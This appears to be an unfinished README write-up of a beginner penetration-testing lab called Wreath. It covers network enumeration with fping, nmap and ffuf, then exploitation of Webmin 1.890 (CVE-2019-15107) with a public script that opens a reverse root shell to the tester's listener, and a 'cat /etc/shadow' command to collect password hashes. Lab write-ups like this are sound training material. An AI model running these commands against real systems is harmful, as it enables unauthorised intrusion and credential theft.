 ![image](https://github.com/user-attachments/assets/b5bd875b-fcc3-4286-afcc-a077677343fc)Wreath is designed as a learning resource for beginners with a primary focus on:

Pivoting
Working with the Empire C2 (Command and Control) framework
Simple Anti-Virus evasion techniques



# Brief
There are two machines on my home network that host projects and stuff I'm working on in my own time -- 
one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.


# Enumeration 

As with any attack, we first begin with the enumeration phase
1. Fping: Using the command fping -agq 10.200.73.200/24 the network was ping to figure out what is in the network
The reult returned 3 Ip address,
  A. 10.200.73.1 - the gateway
  B. 10.200.73.200 - Which is the public facing server 
  C. 10.200.73.250 - unknown machine
![image](https://github.com/user-attachments/assets/1f8ce2fb-c9a3-4f5a-8f7b-7f3a33af18e1)



2. Nmap: This was used to further enumerate the Hosts found in the network
   A.  10.200.73.250 Host: This was scanned using nmap -T4 -sV -A 10.200.73.250  -oN scan.txt  and the result only showed
       i.  port 22 is actively running OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

   ![image](https://github.com/user-attachments/assets/13b0b801-9bd8-4a18-aeeb-ca6942862a54)

  B. 10.200.73.200 Host: This was scanned using nmap -T4 -sV -p- 15000  -A 10.200.73.200  -oN scan.txt, and it returned the following
      i. Port 22 runnig OpenSSH 8.0 (protocol 2.0)
      ii. Port 80 running Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
      iii.Port  443   Apache/2.4.37 (centos) OpenSSL/1.1.1c
      ![image](https://github.com/user-attachments/assets/01be25df-0866-42bd-be16-3791b2237e54)
Going forward with the enumeration, the website was accessed, and was accessible only after adding the domain name resolved on the bowsrr when the IP addressed was input into the browser, into the /etc/hosts file
![image](https://github.com/user-attachments/assets/2c468504-6e52-4663-ba16-9dcba2c33952)
The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.200.73.200/FUZZ -fc 403
![image](https://github.com/user-attachments/assets/f65d363c-0923-42b2-8f3b-090c8273d094)

....
      iv. Port 9090 which showed closed status but is running zeus-admin
      v. Port 10000 running      MiniServ 1.890 (Webmin httpd): The website was accessed and it contained a login in page.  
![image](https://github.com/user-attachments/assets/8603471a-26cb-42e9-9b7e-d151c5ff90ba)


      vi. The operating system is linux CenSOS


# Exploitation

From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
A closer look at this version showed that it is vulnerable to RCE that gives a root shell CVE-2019–15107 
![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)

Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
./exploit.py  10.200.73.200 10000   10.50.66.4 2294           
screnshot of the script:
![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
Screenshot of the listener getting root shell
![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)


2. Password Enumeration
cat /etc/shadow was used to enumerate the root's password hash, then wreath's password
![image](https://github.com/user-attachments/assets/3c72cbaf-9513-4c9a-86f9-6550fc9c87ca)

![image](https://github.com/user-attachments/assets/88fd9c34-d863-4a8d-9816-04b9ea6a41f5)


4. f
5.  





